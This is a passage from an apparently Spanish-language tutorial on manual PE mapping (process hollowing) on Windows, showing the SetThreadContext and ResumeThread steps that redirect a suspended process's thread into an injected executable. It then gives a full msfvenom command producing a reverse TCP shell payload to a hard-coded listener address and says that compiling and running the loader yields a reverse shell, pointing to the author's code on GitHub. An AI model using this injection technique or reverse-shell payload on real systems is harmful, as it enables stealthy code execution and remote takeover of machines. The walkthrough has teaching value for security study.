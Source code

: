 
Esto garantiza que cuando se reanude el hilo, la ejecución empiece directamente desde el binario inyectado.

> _Nota:_ También podría usarse el registro `RCX` como punto de entrada en ciertas circunstancias, como cuando se trata de una llamada indirecta o si se quiere invocar manualmente una función (por eso aparece comentado como alternativa).

#### 2.4.3 Establecer el nuevo contexto

```c
SetThreadContext(pi.hThread, &contexto);
```

Esta función aplica los cambios realizados sobre los registros del hilo. A partir de este momento, el hilo queda listo para ejecutar el código del ejecutable cargado manualmente.

#### 2.4.4 Reanudar el hilo

```c
ResumeThread(pi.hThread);
```

Cuando se crea un proceso con la bandera `CREATE_SUSPENDED`, su hilo principal no empieza a ejecutarse inmediatamente. Esto permite hacer modificaciones antes de que el proceso comience su ejecución real.

---
## 3. Ejecución del programa

El portable ejecutable que estamos usando está generado con msfvenom:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.0.29 LPORT=4444 -f exe -o payload.exe
```

Una vez ya tenemos generado el PE, tenemos que poner la ruta del archivo en el código.

![[1.png]]

Y ya con solo compilar y ejecutar el programa en este caso podríamos obtener una reverse shell.

![[2.png]]

El código está disponible en mi github:

https://github.com/KikoVaquero/manualPEmapping
